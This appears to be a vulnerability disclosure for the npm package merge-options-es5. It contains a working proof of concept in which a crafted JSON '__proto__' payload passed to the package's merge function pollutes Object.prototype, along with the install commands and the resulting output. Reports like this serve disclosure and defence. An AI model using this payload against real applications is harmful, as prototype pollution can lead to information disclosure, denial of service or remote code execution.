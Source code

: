 # Description

`merge-options-es5` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
merge = require('merge-options-es5')

console.log(`Before: ${{}.polluted}`)
merge({}, JSON.parse('{"__proto__": {"polluted": true}}'))
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i merge-options-es5 # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.
